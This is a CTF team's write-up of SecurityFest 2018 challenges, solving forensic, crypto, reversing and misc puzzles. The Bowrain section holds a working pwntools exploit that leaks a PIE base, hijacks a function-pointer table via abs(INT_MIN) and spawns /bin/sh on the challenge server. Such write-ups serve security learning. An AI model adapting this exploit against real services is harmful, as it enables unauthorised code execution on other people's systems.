






# 2018-05-31-SecurityFest #

[CTFTime link](https://ctftime.org/event/622) | [Website](https://securityfest.ctf.rocks/dashboard)

---

## Challenges ##

### Misc ###

 - [x] [51 Sanity check](#51-misc--sanity-check)
 - [ ] 495 The last flight of the osiris
 - [ ] 468 Tracing mr. anderson
 - [x] [51 Zion](#51-misc--zion)
 - [x] [407 All the keys](#407-misc--all-the-keys)
 - [x] [51 Everywhere](#51-misc--everywhere)
 - [x] [51 Mr.reagan](#51-misc--mrreagan)

### Rev ###

 - [x] [51 Bluepill](#51-rev--bluepill)

### Pwn ###

 - [ ] 364 Cypher
 - [ ] 54 Sshnuke
 - [ ] 499 Goldrain
 - [ ] 485 Greenrain
 - [ ] [261 Bowrain](#261-pwn--bowrain) (got the flag just after CTF closed)

### Crypto ###

 - [ ] 500 Agent communications
 - [x] [485 The note](#485-crypto--the-note)
 - [ ] 499 Intercepting sentinels
 - [x] [51 The oracle](#51-crypto--the-oracle)

### Web ###

 - [ ] 51 Screensavers
 - [ ] 314 Pongdom
 - [x] [51 Excesss](#51-web--excesss)
 - [ ] 499 Excesss ii

---

## 51 Misc / Sanity check ##

**Description**

> Flag is in the topic of #securityfest-ctf @ irc.freenode.net

**No files provided**

**Solution**

Login to Freenode, `/join #securityfest-ctf`, `/topic`:

`sctf{securityfestctf_2018}`

## 51 Misc / Zion ##

**Description**

> Is this the access codes to the Zion mainframe?. We have only bits and pieces of information.

**Files provided**

 - `zion.tar.gz` - archive:
   - `YouKnow`

**Solution**

After extracting the `YouKnow` file, we can see that there are many references to Word, e.g. `word/document.xml`. If we make Word open the file, it complains a bit, but it opens it just fine as an Office Open XML document. The contents show some flavour text and a red rabbit:



At first I thought this might be encoding a program in some [esoteric language](https://esolangs.org/wiki/Main_Page), but I didn't have much hope, since there was very little actual text data shown in the image.

Back to looking at the file in a hex editor, we can first notice that it starts with `PK`, just like a zip file. And indeed, we can unzip the file and it contains various XML files, as well as the red rabbit in a `media` folder. But there is one more weird thing – if we scroll all the way to the end, we see `KP`. And not far behind that, `sler./sler_`? In the extracted data, we did get a `_rels/.rels` folder. It is reversed, but why? Around the middle of the file we see where the reversal happens, but the mirror images are not exactly the same.

    0003820: 0000 382e 0000 776f 7264 2f74 6865 6d65  ..8...word/theme
    0003830: 2f74 6865 6d65 312e 786d 6c50 4b01 0214  /theme1.xmlPK...
    0003840: 0014 0008 0808 00bc 94b6 4c29 ef3d 8b4a  ..........L).=.J
    0003850: 0100 0016 0500 0013 0000 0000 0000 0000  ................
    0003860: 0000 0000 002f 3400 005b 436f 6e74 656e  ...../4..[Conten
    0003870: 745f 5479 7065 735d 2e78 6d6c 504b 0506  t_Types].xmlPK..
    0003880: 0000 0000 0b00 0b00 c202 0000 ba35 0000  .............5..
    0003890: 0000 0000 0000 340e 0000 0303 000c 000c  ......4.........
    00038a0: 0000 0000 0605 4b50 6c6d 782e 5d73 6570  ......KPlmx.]sep
    00038b0: 7954 5f74 6e65 746e 6f43 5b00 0032 7900  yT_tnetnoC[..2y.
    00038c0: 0000 0000 0000 0000 0000 0000 1300 0005  ................
    00038d0: 9300 0001 54a6 0075 bf4c b694 7c00 0808  ....T..u.L..|...
    00038e0: 0800 1400 1402 014b 506c 6d78 2e31 656d  .......KPlmx.1em
    00038f0: 6568 742f 656d 6568 742f 6472 6f77 0000  eht/emeht/drow..
    0003900: 2c82 0000 0000 0000 0000 0000 0000 0015  ,...............

Some of the numbers don't match. So let's finally reverse the file and unzip it again. And indeed, there is another image, but this time showing the flag!



`sctf{m41nfr4m3_4cc3ss_c0d3_1337_4lw4s}`

## 407 Misc / All the keys ##

**Description**

> Trinity needs help, find the key in time and discover the Matrix.

**Files provided**

 - `allthekeys.tar.gz`

**Solution**

After extracting the archive, we see that it includes a bunch of files with random 4-character filenames. Looking around with a hexeditor and grep, we can categorise the files into folders as follows:

 - `cert/` - 1 SSL certificate file
 - `binary/` - 66 binary files
 - `ec/` - 65 private EC keys
 - `empty/` - 28 empty files
 - `rsa/` - 4 private RSA keys

Since the number of private keys and binary files was (more or less) the same, my first attempt was to decrypt the binary files with the private keys we have. I tested at first with the RSA keys, e.g.:

    for binary in binary/*; do
      for key in rsa/*; do
        openssl rsautl -in "$binary" -inkey "$key" -decrypt
      done
    done

But all of these failed. My working theory was that there would be a 1-to-1 correspondence between the keys and the binary files, so seeing as none of the RSA keys worked on any of the binary files, I tried something else.

Looking more closely at the certificate file, it includes some human-readable data, as well as an encoded certificate representation within `-----BEGIN CERTIFICATE-----` and `-----END CERTIFICATE-----`. What happens if we make OpenSSL parse this encoded representation? Maybe the encoded data is actually different.

    $ openssl x509 -in cert/6c8e -text -noout

The output is pretty much the same, but our original file has some extra data:

    Response Single Extensions:
          CT Certificate SCTs:
          SCT validation status: valid
          Signed Certificate Timestamp:
               Version   : v1 (0x0)
               Log       : Morpheus Tesfytiruces CT log
               Log ID    : SE:CF:68:74:74:70:73:3a:2f:2f:6d:69:6b:65:79:2e:
                           63:74:66:2e:72:6f:63:6b:73:00:00:00:00:00:00:00
          Timestamp : Jun 1 08:05:26.276 1999 GMT
          Extensions: none
          Signature : ecdsa-with-SHA256
               13:37:13:37:13:37:13:37:13:37:13:37:13:37:13:37:
               13:37:13:37:13:37:13:37:13:37:13:37:13:37:13:37:
               13:37:13:37:13:37:13:37:13:37:13:37:13:37:13:37:
               13:37:13:37:13:37:13:37:13:37:13:37:13:37:13:37:
               13:37:13:37:13:37:13

Interesting. The signature is obviously fake, but looking closely at the log ID, it doesn't look like binary data. And indeed, if we convert `68:74:70:...:6F:63:6B` to ASCII, we get:

    https://mikey.ctf.rocks

If we actually try to access the website, it doesn't really work. The server is saying `400 No required SSL certificate was sent`. We need to send a certificate TO the server? Apparently there is a thing called client certificates, where the server requests that the client sends a certificate. Very useful information, and we can now guess that the certificate we have is not the server certificate, but a client certificate we need to provide. But naturally, there is only a public key in the certificate:

    Subject Public Key Info:
        Public Key Algorithm: id-ecPublicKey
            Public-Key: (256 bit)
            pub: 
                04:65:18:ab:8d:b3:c5:d4:65:f1:65:f0:85:08:1c:
                56:63:18:47:ad:38:b3:3e:b7:36:57:bd:e4:15:eb:
                f8:81:4d:c0:ed:43:32:9b:52:82:47:8c:97:e1:5f:
                96:a5:1b:e0:63:75:1b:6d:fb:42:40:a1:65:08:93:
                83:94:80:7b:eb
            ASN1 OID: prime256v1

To make this work we need the private key. Luckily we have dozens of them. Let's extract the public keys from all of our RSA keys:

    for key in rsa/*; do
      openssl rsa -in "$key" -text -noout
    done

Nope, how about the EC keys?

    for key in ec/*; do
      openssl ec -in "$key" -text -noout
    done

No luck! So what about the binary files? Now that we have a server to access, we will probably find the flag on the server, not in the files. If we look at all the binary files in a hexeditor, we can notice something – every single one of them starts with an ASCII `0`. [Sounds familiar](https://www.cryptosys.net/pki/rsakeyformats.html).

> Binary DER-encoded format. This is sometimes called ASN.1 BER-encoded (there is a subtle difference between BER- and DER-encodings: DER is just a stricter subset of BER). The most compact form. If you try to view the file with a text editor it is full of "funny" characters. The first character in the file is almost always a '0' character (0x30).

So let's extract the public keys from these as well:

    for key in binary/*; do
      openssl ec -in "$key" -inform DER -text -noout
    done

One of them in particular is useful:

    $ openssl ec -in binary/ddcb -inform DER -text -noout
    read EC key
    Private-Key: (256 bit)
    priv:
        13:75:f1:f0:66:84:74:e5:5e:f4:03:2b:e3:92:38:
        39:47:8d:10:e4:10:c4:2d:0d:a3:36:7b:21:e4:a7:
        25:53
    pub: 
        04:65:18:ab:8d:b3:c5:d4:65:f1:65:f0:85:08:1c:
        56:63:18:47:ad:38:b3:3e:b7:36:57:bd:e4:15:eb:
        f8:81:4d:c0:ed:43:32:9b:52:82:47:8c:97:e1:5f:
        96:a5:1b:e0:63:75:1b:6d:fb:42:40:a1:65:08:93:
        83:94:80:7b:eb
    ASN1 OID: prime256v1
    NIST CURVE: P-256

The `pub` section matches what we have in our client certificate. I tried for a bit to make `curl` work with the certificate + the private key (converted to PEM format), but no luck, the server kept responding with the same error. So:

    openssl s_client -key binary/ddcb -cert cert/6c8e -connect mikey.ctf.rocks:443

And indeed, we are flooded with HTML. After opening this, we see a nice ASCII art image, and the flag hiding among the text!


`sctf{th3_M4tr1x_1s_4_5y5t3m_N30}`

## 51 Misc / Everywhere ##

**Description**

> Too much information to decode.

**Files provided**

 - `everywhere.tar.gz` - containing `everywhere`, a JPEG file

**Solution**

The JPEG shows some typical matrix-y green text visuals. Looking at the EXIF chunks, metadata, and hexdump reveals nothing of interest. Apparently this is just a JPEG image and nothing more. Based on the hint I tried to extend the canvas of the JPEG image, but no, there is just enough data encoded to fill the canvas.

Since the challenge is called everywhere, let's look everywhere. The background video playing on the actual CTF submission server is also matrix-y. But it also seems very much like an excerpt from an actual movie (Animatrix maybe?), so modifying that to include the flag would be a lot of effort.

How about the Internet? Using a reverse image search, we can search for the picture we have. And there are many matches. [Some of them](https://manshoor.com/uploads/editor/source/Westworld4%40manshoor.com.jpg?1478435393695) match the dimensions of our file exactly – 960x678. The matches are found on regular websites, it would be impossible to sneak a flag in there and expect people to find it. So after downloading a matching image from the Internet, we can compare it to the one we've been given. Putting the two in Photoshop one on top of the other, we can use the "Difference" blending mode to only see where the images don't match. And indeed, there is a single line that was added, here made somewhat brigther (hopefully more readable):



`sctf{y0u_411_100k_th3_54m3_t0_m3}`

(I wonder if anybody solved this by just noticing the flag in the given image.)

## 51 Misc / Mr.reagan ##

**Description**

> Agent Smith got this from Mr. Reagan, a EMP was activated nearby, or?

**Files provided**

 - `mrreagan.tar.gz` - containing `mrreagan`, a disk image

**Solution**

After mounting the image, we see that it is an NTFS filesystem. We can see the `$RECYCLE.BIN` folder, the `System Volume Information` folder, but also an `EFSTMPWP`. If we search for `EFSTMPWP`, we [find](http://www.majorgeeks.com/content/page/what_is_the_efstmpwp_folder_and_can_you_delete_it.html) it is an artefact of using Cipher on Windows to erase data from empty space on a filesystem, thereby making it irrecoverable (unlike just unlinking a file). So this would be the EMP that the challenge description mentions. But the description also has a question mark!

We can open the image in [Autopsy](http://sleuthkit.org/autopsy/index.php), always useful for Windows forensics. And indeed, there are some orphan files:





All of these show some ASCII data that looks quite like Base64. One of them in particular produces `sctf{` after decoding, so clearly this is the right direction. But some of the others produce garbage? Let's extract the five files.

    $ cat export/*
    c2N0ZnszbD 
    NjdHIwbTRn 
    bjN0MWNfcH 
    VsNTNfdzRz 
    X2Y0azN9Cg 
    $ cat export/* | base64 -D
    sctf{3l3ctr0m4gn3t1c_pul53_w4s_f4k3}

And now it works. The problem was that the Base64 data first needed to be concatenated, then decoded, otherwise the decoded bits were offset.

`sctf{3l3ctr0m4gn3t1c_pul53_w4s_f4k3}`

## 51 Rev / Bluepill ##

**Description**

> This your last chance. After this there is no turning back. You take the blue pill, the story ends. You wake up in your bed and believe whatever you want to. You take the red pill, you stay in Wonderland, and I show you how deep the rabbit hole goes. Remember, all I'm offering is the truth. Nothing more. This challenge was sponsored by ATEA! If you are a local student player you are eligible to turn in the flag at the ATEA booth for a prize!

**Files given**

 - `bluepill.tar.gz` - archive containing
   - `bluepill.ko`
   - `init`
   - `run.sh`
   - `tiny.kernel`

**Solution**

A kernel object is given, which I am not very familiar with, however, `pill_choice` is the critical function, obviously.

The basic logic is to get input from function `strncpy_from_user`, and test the input.

```c
v5 = file_open("/proc/version");
if ( v5 )
{
  v6 = v5;
  file_read(v5, (unsigned __int8 *)magic, 0x1F4u);
  v7 = v6;
  v8 = &choice_35697;
  filp_close(v7, 0LL);
  if ( strlen((const char *)&choice_35697) > 0xB )
  {
    v9 = checks_35680;
    while ( 1 )
    {
      v10 = 0LL;
      memset(&v21, 0, 0x19uLL);
      *(_QWORD *)digest = 0LL;
      v19 = 0LL;
      s2 = 0LL;
      calc(v8, 4uLL, digest); //calculate md5 for 4 bytes
      do
      {
        v11 = magic[v10];
        v12 = digest[v10];
        v13 = 2 * v10++;
        sprintf((char *)&s2 + v13, "%02x", v11 ^ v12);
      }
      while ( v10 != 16 );
      if ( memcmp(v9, &s2, 0x20uLL) )
        break;
      v8 += 4;
      v9 += 33;
      if ( v8 == &choice_35697 + 12 )
      {
        printk(&success);
          //...
```

The length of string must be larger than 11, and then only 12 bytes are useful, which are grouped as 4 bytes and their md5 are calculated. To know `calc` is calculating md5, simply inspect the constants and global array data used and search them on google. However, in some other reverse challenges the hash algorithm may be modified, so this approach can't be 100% sure.

Then the md5 hashes will be `xor` with the content from `/proc/version`, then compare with the 

```assembly
.data:0000000000000800 checks_35680    db '40369e8c78b46122a4e813228ae8ee6e',0
.data:0000000000000821 aE4a75afe114e44 db 'e4a75afe114e4483a46aaa20fe4e6ead',0
.data:0000000000000842 a8c3749214f4a91 db '8c3749214f4a9131ebc67e6c7a86d162',0
```

so to get md5 hashes, simply `xor` the hex above with content in `/proc/version`, as shown.

```python
import hashlib
from pwn import *
proc_version = "Linux version 4.17.0-rc4+ (likvidera@ubuntu) (gcc version 7.2.0 (Ubuntu 7.2.0-8ubuntu3.2)) #9 Sat May 12 12:57:01 PDT 2018"
# obtained from cat /proc/version within the kernel given
keys = ["40369e8c78b46122a4e813228ae8ee6e", "e4a75afe114e4483a46aaa20fe4e6ead", "8c3749214f4a9131ebc67e6c7a86d162"]

def get_hashes():
	ret = []
	for i in xrange(0,3):
		one_hashes = ""
		hex_data = keys[i].decode("hex")
		for i in xrange(0,len(hex_data)):
			one_hashes += chr(ord(proc_version[i]) ^ ord(hex_data[i]))
		ret.append(one_hashes)
	return ret

def md5(string):
	m = hashlib.md5()
	m.update(string)
	return m.digest()

hashes = get_hashes()
for i in xrange(0, 3):
	print "".join("{:02x}".format(ord(c)) for c in hashes[i])

#0c5ff0f900941747d69b7a4de4c8da40
#a8ce348b696e32e6d619c34f906e5a83
#c05e2754376ae75499b5170314a6e54c
#crack the md5 using this website https://cmd5.org/
#g1Mm3Th3r3D1
```

However, this is not the flag, obtain the flag by accessing the kernel object.

```bash
$ echo "g1Mm3Th3r3D1" > /proc/bluepill
$ cat flag
```

## 261 Pwn / Bowrain ##

**Description**

> A little known fact about Elon Musk is that he invented the matrix as a scheme to sell trendy late 90s screensavers to fund his space adventures. That sneaky SOB left his beta screensaver app online and I think it has a backdoor.
> 
> Service: nc pwn2.trinity.neo.ctf.rocks 54321 | nc 159.65.80.92 54321

**Files given**

 - `bowrain.tar.gz`

**Solution**

### Problems ###

1. no null termination in function `sub_CB0`, which is used to get a string, so PIE base address can be leaked.
2. `abs(INT_MIN)` is still a negative number
3. `x % n` is negative when x is negative

in function `main`

```c
 while ( 1 )
  {
    v4[0] = get_number();
    if ( v4[0] == -1 )
    {
      printf("\x1B[31;1merror:\x1B[0m not a number: %s\n", ::a1, *(_QWORD *)v4, v5);
        // leak PIE possible
    }
    else
    {
      v4[1] = abs(v4[0]) % 7;//can be negative if v4[0] is 2147483648
      memset(::a1, 0, endptr - (char *)::a1);
      v3 = (void (__fastcall *)(char *, _QWORD))*(&off_2030A0 + v4[1]);
      //will access a function pointer that can be manipulated by input if negative
      v3(++endptr, 0LL);
      //++endptr will point to the address just after the null terminator of input
    }
    print_choice();
```

and in `.data`

```assembly
.data:0000000000203020 a1              db 30h, 7Fh dup(0)
.data:00000000002030A0 off_2030A0      dq offset sub_AE0
.data:00000000002030A8                 dq offset sub_B1A
.data:00000000002030B0                 dq offset sub_B54
.data:00000000002030B8                 dq offset sub_B8E
.data:00000000002030C0                 dq offset sub_BC8
.data:00000000002030C8                 dq offset sub_C02
.data:00000000002030D0                 dq offset sub_C3C
```

buffer that holds the input is contiguous with the function pointers.

First of all, since there is no null termination, we can leak address of `sub_AE0` to get base address.

Secondly, if the index to access the function pointer table is negative, we can hijack the control flow to function `system`.

```python
from pwn import *

g_local=False
#context.log_level='debug'
if g_local:
	sh = process('./bowrain')#env={'LD_PRELOAD':'./libc.so.6'}
	gdb.attach(sh)
else:
	sh = remote("159.65.80.92", 54321)

sh.send("A" * 0x80 + "\n")
sh.recvuntil("A" * 0x80)
leak = sh.recvuntil(": ")[:6] + "\x00\x00"
base = u64(leak) - 0xAE0
print hex(base)

payload = "2147483648" + "\x00" + "/bin/sh\x00"
payload += "A" * 5
assert len(payload) == 0x18
payload += ((0x80 - len(payload)) / 8) * p64(base + 0x958)
# spray the address of system, 
# so any access of function pointer table with negative index > -7 (by % operation)
# will give address of system
# excact number can be determined by debugging, but spraying is more convinient
sh.send(payload + "\n")
sh.interactive()
```

## 485 Crypto / The note ##

**Description**

> I found this strange string of numbers inside a copy of Отцы и дети by Ива́н Серге́евич Турге́нев that Cypher left inside a postbox. Can you help me figure out what it is? NOTE: the flag is not encoded in the usual format, enter it as sctf{FLAG} with the flag in caps

**Files given**

 - `emsg.tar.gz` - containing the cipher text [`emsg.txt`](scripts/note/emsg.txt), with 682 pairs of decimal digits separated by spaces

**Solution**

Given the hint mentioning a book and the cipher text being small numbers, my first thought was that this is a book cipher. I made several attempts:

 - using the original Russian text
   - number = word in text, take first letter of word
   - number = letter in text
 - same with English text

But all of it looked rather nonsensical. At this point there were still no solves, and the admin of the challenge hinted that "knowing what the book was about is useful". So having a look at the [Wikipedia page](https://en.wikipedia.org/wiki/Fathers_and_Sons_(novel)), we see that the central theme is basically ... nihilism. Is this a key? A crib?

While exploring some cryptography pages on Wikipedia for some other challenges, I noticed something in the classical cryptography section: [Nihilist cipher](https://en.wikipedia.org/wiki/Nihilist_cipher)! Sounds like exactly what we need. I fumbled about a bit still trying to solve it like a substitution cipher for some reason, but then I looked into how to break the cipher properly. I plotted the frequency of each number in the cipher text:

           0   1    2    3    4    5    6    7    8    9
         -----------------------------------------------
    0   |  0   0    0    0    0    0    0    0    0    0
    1   |  0   0    0    0    0    0    0    0    0    0
    2   |  0   0    0    0    4    5   10    6    0    0
    3   |  0   0    2    8   17    9    5    2    1    0
    4   |  0   0    2    8   22   43   43   26    3    0
    5   |  0   0    4   20   21   19   25   24   21   10
    6   |  0   0    4    4   28   36   36   15   23    0
    7   |  4   0    0    7   30   13   11   28    4    2
    8   |  7   0    0   13    3    8   15   11    0    9
    9   |  2   0    0    1    2    1    2    2    0    1

(Here I was trying to assign the 43 to the most common English letter, and so on, but that is clearly not the right approach.)

It is notable that there are no low numbers, and it seems like the lower right corner is actually a continuation (i.e. overflow). This all makes sense with the nihilist cipher, which works like this:

 1. a 5x5 polybius square is created based on a keyword - basically a substitution alphabet with 25 letters, where each letter in the cipher text is identified by its row and column in the square
 2. the plain text is encoded into numbers using the polybius square
 3. the key (another one) is also encoded into numbers using the polybius square
 4. the cipher text is created by taking each number from step 2 and adding it to a number from step 3, repeating the key numbers periodically as needed

There are some serious flaws in the cipher like this. In particular:

 - a substitution cipher is trivially broken if we have enough data (the cipher text is quite long here), or we have cribs (we have that as well), or we know that the plain text is English (a fair assumption)
 - any of the numbers from steps 2 and 3 have to be valid polybius square coordinates, i.e. `1 ≤ row ≤ 5`, `1 ≤ column ≤ 5`, so `24` is a valid coordinate, while `30` is not

With this in mind, we can start breaking the cipher. The first step is to get rid of the additive key. We can try to find out what the key length is before doing anything else (see [SUCTF writeup - cycle](https://github.com/Aurel300/empirectf/blob/master/writeups/2018-05-26-SUCTF/README.md#465-misc--cycle)), and this is what I did during the CTF. But as it turns out, it is unnecessary.

The process is as follows:

 - for each possible key length `Nk`, `1, 2, ...`
   - put the cipher data into `Nk` columns
   - for each column `i` (corresponding to a single key character)
     - for each possible key character value `k[i]` that is a valid polybius coordinate `11, 12, 13, 14, 15, 21, ..., 55`
       - subtract `k[i]` from all values in column `i`
       - if they are all valid polybius coordinates, this is a possible value for `k[i]`
   - if all `k[i]`s are valid, this is a valid key (and we can stop)

With a shorter cipher text, there might be some ambiguity with respect to key selection. But basically, if the plain text for each column for a given key length includes `11` and `55`, or `51` and `15`, i.e. opposite corners of the original polybius square, then the key value we choose for that column is unique, and any other key value would result in the plain text being outside the polybius square.

Our cipher text is long enough and the shortest key we can find to uniquely place all of the plain text within valid polybius coordinates is:

    21, 33, 45, 13, 42, 32, 33, 33

We don't know what this key is without breaking the polybius square, but we will soon find out. After removing this additive key from the cipher text, we are left with:

    12 41 52 31 41 34 32 12 34 14 54 22 41 35 22 13 44 35 32 14 34 34 44 44 13
    14 25 14 35 12 31 13 44 13 21 13 33 15 35 41 52 35 14 11 22 54 42 31 13 44
    14 11 54 41 45 34 32 25 31 12 15 35 41 52 32 31 14 51 13 21 13 13 35 41 45
    12 11 32 23 13 12 31 13 34 14 12 44 32 53 24 41 44 35 32 35 13 54 13 14 44
    11 32 14 34 14 33 11 41 14 34 13 34 21 13 44 41 24 34 41 44 42 31 13 45 11
    22 44 13 52 14 35 23 22 14 35 31 13 33 42 54 41 45 24 32 35 23 14 33 33 14
    21 41 45 12 31 32 11 52 31 13 44 13 14 21 41 45 12 11 32 52 41 45 33 23 33
    32 15 13 12 41 24 41 44 25 13 12 14 21 41 45 12 12 31 32 11 31 41 44 44 32
    21 33 13 52 41 44 33 23 14 35 23 21 13 14 21 33 13 12 41 25 13 12 21 14 22
    15 12 41 12 31 13 34 14 12 44 32 53 11 41 12 31 14 12 32 22 14 35 13 35 32
    41 54 12 31 13 44 13 11 12 41 24 34 54 33 32 24 13 32 35 12 31 32 11 14 34
    14 55 32 35 25 52 41 44 33 23 32 33 41 35 25 12 41 13 35 32 41 54 14 25 14
    32 35 12 31 13 44 13 33 14 53 32 35 25 14 35 23 33 13 11 11 11 12 44 13 11
    11 24 45 33 33 32 24 13 12 31 14 12 12 31 13 34 14 12 44 32 53 42 44 41 51
    32 23 13 11 14 35 23 14 33 33 12 31 41 11 13 33 32 12 12 33 13 33 45 53 45
    44 32 13 11 12 31 14 12 11 32 34 42 33 54 23 41 35 41 12 13 53 32 11 12 32
    35 12 31 13 44 13 14 33 52 41 44 33 23 14 35 54 34 41 44 13 32 24 54 41 45
    14 44 13 52 32 33 33 32 35 25 12 41 35 13 25 41 12 32 14 12 13 42 33 13 14
    11 13 33 13 14 51 13 14 35 41 12 13 52 32 12 31 12 31 13 12 32 34 13 14 35
    23 42 33 14 22 13 12 41 31 41 33 23 11 45 22 31 14 34 13 13 12 32 35 25 32
    35 11 32 23 13 14 35 13 35 51 13 33 41 42 13 33 14 21 13 33 33 13 23 11 22
    12 24 53 12 31 13 34 14 12 44 32 53 22 14 35 21 13 34 41 44 13 44 13 14 33
    12 31 14 35 12 31 32 11 52 41 44 33 23 53 41 35 12 31 13 22 44 41 11 11 52
    14 54 21 13 12 52 13 13 35 12 31 13 52 14 21 14 11 31 14 35 23 13 44 32 13
    14 12 11 13 51 13 35 41 22 33 41 22 15 32 35 12 31 13 14 24 12 13 44 35 41
    41 35 32 14 34 14 35 53 32 41 45 11 33 54 52 14 32 12 32 35 25 24 41 44 54
    41 45 44 42 44 41 34 42 12 44 13 42 33 54 54 41 45 44 11 12 44 45 33 54 34
    44 44 13 14 25 14 35

(So now you can see all of the numbers are valid polybius coordinates.)

Despite using two-digit numbers, there are really only 25 unique values, so this is a substitution cipher. The most common value in any text is generally `0x20`, a space character. However, when using a polybius square, there are only 25 characters to choose from, so the spaces are omitted, along with any punctuation or indication of letter case. `I` and `J` are generally merged, since the latter is quite rare in English text.

We can refer to a [frequency table like this](http://sxlist.com/techref/method/compress/etxtfreq.htm) to gain a lot of useful insight as to what we might expect to see in the plain text. In particular, the letters appearing in the plain text will likely be "ETAOINSH...", with the most frequent letter first. We will consider "THE" to be a crib, and the most common trigram / three-letter sequence in the plain text. With the crib only, we construct a temporary polybius square:

      a  T  E  d  e
      f  g  h  i  k
      H  m  n  o  p
      q  r  s  t  u
      v  w  x  y  z

This also has the advantage that many of the later letters might already be in their correct position, as long as the keyword doesn't use them (this is why "ZEBRA" shown as an example on the Wikipedia page for the nihilist cipher is a good keyword). Then we deduce letters one at a time to make sense of the plain text. At some point knowing the plot of The Matrix helps, and we can find the relevant section in the film's script.

([full script with interactive decoding here](scripts/note/Decode.hx))

    --- Interactive decode mode ---
    Current square:
      a  T  E  d  e
      f  g  h  i  k
      H  m  n  o  p
      q  r  s  t  u
      v  w  x  y  z
    Frequency chart:
     33 61 82 62  5
     14 14 18 12 13
     33 50 41 23 46
     55 11  0 43 17
      5 16 10 17  1
    Current plain text:
    TqwHqomTodygqpgEtpmdoottEdkdpTHEtEfEnepqwpdagyrHEtdayquomkHTepqwmHdvEfEEpquTamhETHEodTtmxiqtpmpEyEdtamdodnaqdoEofEtqioqtrHEuagtEwdphgdpHEnryquimphdnndfquTHmawHEtEdfquTamwqunhnmeETqiqtkETdfquTTHmaHqttmfnEwqtnhdphfEdfnETqkETfdgeTqTHEodTtmxaqTHdTmgdpEpmqyTHEtEaTqioynmiEmpTHmadodzmpkwqtnhmnqpkTqEpmqydkdmpTHEtEndxmpkdphnEaaaTtEaaiunnmiETHdTTHEodTtmxrtqvmhEadphdnnTHqaEnmTTnEnuxutmEaTHdTamornyhqpqTExmaTmpTHEtEdnwqtnhdpyoqtEmiyqudtEwmnnmpkTqpEkqTmdTErnEdaEnEdvEdpqTEwmTHTHETmoEdphrndgETqHqnhaugHdoEETmpkmpamhEdpEpvEnqrEndfEnnEhagTixTHEodTtmxgdpfEoqtEtEdnTHdpTHmawqtnhxqpTHEgtqaawdyfETwEEpTHEwdfdaHdphEtmEdTaEvEpqgnqgempTHEdiTEtpqqpmdodpxmquanywdmTmpkiqtyqutrtqorTtErnyyqutaTtunyottEdkdp
    Replace: d
    With:    a
    Current square:
      a  T  E  A  e
      f  g  h  i  k
      H  m  n  o  p
      q  r  s  t  u
      v  w  x  y  z
    Frequency chart:
     33 61 82 62  5
     14 14 18 12 13
     33 50 41 23 46
     55 11  0 43 17
      5 16 10 17  1
    ...
    ...
    ...
    Current square:
      S  T  E  A  K
      B  C  D  F  G
      H  I  L  M  N
      O  P  s  R  U
      V  W  X  Y  z
    Frequency chart:
     33 61 82 62  5
     14 14 18 12 13
     33 50 41 23 46
     55 11  0 43 17
      5 16 10 17  1
    Current plain text:
    TOWHOMITMAYCONCERNIAMMRREAGANTHEREBELKNOWNASCYPHERASYOUMIGHTKNOWIHAVEBEENOUTSIDETHEMATRIXFORNINEYEARSIAMALSOAMEMBEROFMORPHEUSCREWANDCANHELPYOUFINDALLABOUTHISWHEREABOUTSIWOULDLIKETOFORGETABOUTTHISHORRIBLEWORLDANDBEABLETOGETBACKTOTHEMATRIXSOTHATICANENIOYTHERESTOFMYLIFEINTHISAMAzINGWORLDILONGTOENIOYAGAINTHERELAXINGANDLESSSTRESSFULLIFETHATTHEMATRIXPROVIDESANDALLTHOSELITTLELUXURIESTHATSIMPLYDONOTEXISTINTHEREALWORLDANYMOREIFYOUAREWILLINGTONEGOTIATEPLEASELEAVEANOTEWITHTHETIMEANDPLACETOHOLDSUCHAMEETINGINSIDEANENVELOPELABELLEDSCTFXTHEMATRIXCANBEMOREREALTHANTHISWORLDXONTHECROSSWAYBETWEENTHEWABASHANDERIEATSEVENOCLOCKINTHEAFTERNOONIAMANXIOUSLYWAITINGFORYOURPROMPTREPLYYOURSTRULYMRREAGAN
    Replace: z
    With:    z
    Current square:
      S  T  E  A  K
      B  C  D  F  G
      H  I  L  M  N
      O  P  s  R  U
      V  W  X  Y  Z
    Frequency chart:
     33 61 82 62  5
     14 14 18 12 13
     33 50 41 23 46
     55 11  0 43 17
      5 16 10 17  1
    Current plain text:
